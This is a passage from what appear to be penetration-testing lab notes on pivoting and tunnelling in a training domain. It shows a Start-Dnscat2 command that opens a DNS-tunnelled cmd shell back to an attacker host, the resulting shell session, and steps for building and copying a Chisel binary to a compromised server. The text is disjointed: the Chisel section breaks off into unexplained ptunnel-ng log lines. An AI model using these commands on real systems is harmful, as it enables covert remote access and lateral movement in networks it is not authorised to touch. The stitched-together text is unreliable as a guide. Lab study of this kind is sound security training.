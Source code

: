 Start-Dnscat2 -DNSserver 10.10.14.7 -Domain inlanefreight.local -PreSharedSecret e11c67b58a77f306eae39e33a5de2384 -Exec cmd

### **Interacting with the Established Session**

```
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1>
```

## **SOCKS5 Tunneling with Chisel**

[Chisel](https://github.com/jpillora/chisel) is a TCP/UDP-based tunneling tool written in [Go](https://go.dev/) that uses HTTP to transport data that is secured using SSH. 

Chisel can create a client-server tunnel connection in a firewall restricted environment. 

Let us consider a scenario where we have to tunnel our traffic to a webserver on the `172.16.5.0`/`23` network (internal network). We have the Domain Controller with the address `172.16.5.19`. This is not directly accessible to our attack host since our attack host and the domain controller belong to different network segments. However, since we have compromised the Ubuntu server, we can start a Chisel server on it that will listen on a specific port and forward our traffic to the internal network through the established tunnel.

### **Building the Chisel Binary**

```
dollarboysushil@htb[/htb]$ cd chisel
													 go build
```

### **Transferring Chisel Binary to Pivot Host**

```
dollarboysushil@htb[/htb]$ scp chisel ubuntu@10.129.202.64:~/
ubuntu@10.129.202.64's password:
chisel                                        100%   11MB   1.2MB/s   00:09
```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.